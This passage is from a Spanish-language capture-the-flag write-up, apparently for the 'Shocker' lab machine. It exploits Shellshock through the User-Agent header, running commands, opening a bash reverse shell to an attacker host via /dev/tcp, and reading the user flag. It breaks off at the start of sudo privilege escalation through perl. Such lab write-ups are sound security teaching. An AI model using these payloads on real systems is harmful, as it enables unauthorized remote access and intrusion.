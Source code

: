 ¡Nuestro objetivo es vulnerable! Así que es momento de explotar.

## EXPLOTACIÓN
  
Básicamente la explotación de `shell shock` se da en la modificación del `User-Agent` al momento de enviar una petición web, esta cabecera se envía de la siguiente manera `User-Agent: () { :; };echo;echo; <COMMAND>`, siendo <COMMAND> el comando que deseamos ejecutar remotamente.
  
```bash
   ❯ curl -s -X GET "http://10.10.10.56/cgi-bin/user.sh" -H "User-Agent: () { :; };echo;echo; /usr/bin/whoami"
  
  shelly
```

Una vez podemos evidenciar que tenemos ejecución remota de comandos, procedemos a entablar una reverse shell por medio de un oneliner de `bash`.

```bash
  ❯ curl -s -X GET "http://10.10.10.56/cgi-bin/user.sh" -H "User-Agent: () { :; };echo;echo; /bin/bash -i >& /dev/tcp/10.10.14.4/4564 0>&1"
```

Nos ponemos en escucha por el puerto de la reverse shell y tenemos acceso con el usuario `shelly`.

```bash
  ❯ nc -lvnp 4564
  listening on [any] 4564 ...
  connect to [10.10.14.4] from (UNKNOWN) [10.10.10.56] 50738
  bash: no job control in this shell
  shelly@Shocker:/usr/lib/cgi-bin$ whoami
  whoami
  shelly
```

<p style="text-align: center;">
<img src="/assets/images/shocker/04-intrusion.png">       
</p>

¡Es momento de leer la flag del usuario!

```bash
  shelly@Shocker:/usr/lib/cgi-bin$ find / -name user.txt 2>/dev/null
  /home/shelly/user.txt
  shelly@Shocker:/usr/lib/cgi-bin$ head -c 10 /home/shelly/user.txt; echo
  2ec24e1132
```

## ESCALADA DE PRIVILEGIOS SUDO

Una vez tenemos acceso a la maquina vamos a realizar el escalamiento de permisos para poder obtener acceso privilegiado y control absoluto, en esta ocasión vamos a verificar los permisos de ejecución de comandos con sudo.

```bash
  shelly@Shocker:/usr/lib/cgi-bin$ sudo -l
  Matching Defaults entries for shelly on Shocker:
      env_reset, mail_badpass,
      secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
  
  User shelly may run the following commands on Shocker:
      (root) NOPASSWD: /usr/bin/perl
```
